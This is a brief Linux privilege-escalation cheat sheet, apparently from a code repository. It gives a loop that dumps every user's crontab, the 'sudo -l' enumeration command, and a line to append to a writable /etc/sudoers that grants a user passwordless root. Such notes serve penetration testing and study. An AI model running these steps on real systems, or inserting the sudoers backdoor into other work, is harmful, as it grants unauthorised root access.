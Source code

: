# PrivEsc Cheatsheet

## Get Cron Jobs of all users
(where possible)
```
for user in $(getent passwd | cut -f1 -d: ); do echo $user; crontab -u $user -l; done
```

## Available Commands

"List the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host"

```
sudo -l
```

## Writeable `/etc/sudoers`
Append:
```
<username>      ALL = NOPASSWD: ALL
```
